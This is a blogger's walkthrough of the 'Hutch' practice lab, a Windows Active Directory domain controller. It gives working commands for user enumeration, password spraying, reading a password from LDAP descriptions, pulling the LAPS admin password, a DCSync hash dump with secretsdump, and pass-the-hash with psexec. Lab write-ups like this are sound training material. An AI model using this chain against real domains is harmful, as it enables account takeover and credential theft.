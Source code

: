 # **HUTCH | PG Practice**

***

## **C.Rating : Hard**

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/f18534d6-daa9-4345-9cc4-69548cdfceab)

***

Running our nmap scan to discover open ports we have:


```bash
# Nmap 7.94SVN scan initiated Thu Jun 13 09:55:09 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.214.122
Nmap scan report for 192.168.214.122
Host is up (0.15s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/10.0
|   WebDAV type: Unknown
|   Server Date: Thu, 13 Jun 2024 08:58:07 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|_  Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-13 08:57:17Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: HUTCHDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-13T08:58:09
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 13 09:58:51 2024 -- 1 IP address (1 host up) scanned in 222.82 seconds
```


Checking port 80 we have a default IIS page

![](https://i.imgur.com/qzWtkMc.png)






Decided to run `enum4linux-ng` also for more enumeration


```bash
enum4linux-ng 192.168.214.122 -L -S -oJ hutch.json

# -L: Get additional info via LDAP/LDAPS
# -S: Get shares via RPC
# -oJ: Writes output to JSON file
```



![](https://i.imgur.com/9vVXGWK.png)


Domain : hutch.offsec | 
DC : HUTCHDC


Enumerating users via `ldapsearch` we have few users


```bash
ldapsearch -x -H ldap://192.168.214.122 -b "DC=hutch,DC=offsec" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```


![](https://i.imgur.com/4y5clqt.png)



```
Guest
rplacidi
opatry
ltaunton
acostello
jsparwell
oknee
jmckendry
avictoria
jfrarey
eaburrow
cluddy
agitthouse
fmcsorley
```



We can also confirm that this users are valid using the `kerbrute` tool


```bash
kerbrute userenum --dc 192.168.214.122 -d hutch.offsec users.txt
```


![](https://i.imgur.com/5ac4Q3H.png)


Performing an ASREPRoasting attack, unfortunately no user has pre-authentication enabled


```bash
GetNPUsers.py hutch.offsec/ -usersfile users.txt -format hashcat -dc-ip 192.168.214.122
```


![](https://i.imgur.com/19LxHwc.png)


Tried to password spray

- Using the SMB protocol

```bash
crackmapexec smb 192.168.214.122 -u users.txt -p users.txt
```


![](https://i.imgur.com/EVW8zBJ.png)


- Using the WINRM protocol

```bash
crackmapexec winrm 192.168.214.122 -u users.txt -p users.txt
```


![](https://i.imgur.com/7YGbvds.png)



However password spraying with an empty password we have this `STATUS_ACCOUNT_DISABLED` message on the guest account



![](https://i.imgur.com/9epKINu.png)


Still couldn't do anything cos we need the administrator password to enable any account, However it took me hours to figure out that some users leave passwords in description, so the below command using `ldapsearch` helped 



```bash
ldapsearch -x -H ldap://192.168.214.122 -b "DC=hutch,DC=offsec" -s sub "(&(objectclass=*))"  | grep description:
```


![](https://i.imgur.com/clUpkSP.png)



We found a password called `CrabSharkJellyfish192`, soooo i decided to password spray and we got a hit at user `fmcsorley`



```bash
netexec smb 192.168.214.122 -u users.txt -p "CrabSharkJellyfish192"
```



![](https://i.imgur.com/BHe29vS.png)


As my own **rule of thumb**, after valid creds i roll up `bloodhound-python` first to get more information on the domain


```bash
bloodhound-python -u 'fmcsorley' -p 'CrabSharkJellyfish192' -ns 192.168.214.122 -d hutch.offsec -c all
```



![](https://i.imgur.com/m6X2Wqr.png)



Also just so we don't miss anything let us check if this user has access to any shares


```bash
smbmap -H 192.168.214.122 -u fmcsorley -p CrabSharkJellyfish192
```



![](https://i.imgur.com/d4Dj05m.png)




However enumerating the shares i couldn't find anything valid so i  ran back to bloodhound, loaded my data and found out the user `fmcsorley` can read the **Local Administrator Password Solution** (LAPS) which **provides management of local account passwords of domain joined computers**.


![](https://i.imgur.com/Gg6lUsf.png)


To abuse this we can use the [pyLAPS](https://github.com/p0dalirius/pyLAPS) tool to retrieve credentials



```bash
./pyLAPS.py --action get -d "hutch.offsec" -u "fmcsorley" -p "CrabSharkJellyfish192" --dc-ip 192.168.214.122
```



![](https://i.imgur.com/jDxoPEq.png)


Now let see if this password works for the administrator user, hehe


```bash
netexec smb 192.168.198.122 -u administrator -p "{2[i2Nae6IjQDF" -d hutch.offsec
```


![](https://i.imgur.com/k3ALru1.png)


> I am so sorry the password above is different same as the IP, the lab got stopped and all things where rotated



We have a hit on the administrator and it looks like we are domain admin, we can still take a step further and perform the DCSync attack to replicate the DC and dump all users hash


```bash
secretsdump.py 'hutch.offsec'/'administrator'@192.168.198.122                
# Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies      
                                                                                                                                                                                             
# Password:
```



![](https://i.imgur.com/7Itac4o.png)


Then pass-the-hash for the admin user and get all flags


```bash
psexec.py administrator@192.168.198.122 -hashes aad3b435b51404eeaad3b435b51404ee:0ae9bb132b0b7c3722b7ba682d966e7a
```



![](https://i.imgur.com/9GGwfBp.png)


## What did I learn ?


- First of, I need to start building a methodology for attacking AD, Point is, i missed the **"password in description"**, took me hours to figure it out and finally got it from a friend, this same thing also happened in **Dante**, THE LITTLE THINGS MATTER
- Secondly this lab was quite easy and straight forward BTW, cos' it is AD, hehe, soooo start learning **active directory penetration testing**!



Have fun 🤤


![](https://i.pinimg.com/originals/ca/26/2e/ca262e0354eea311c41134c3e4bc3bc2.gif)


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>

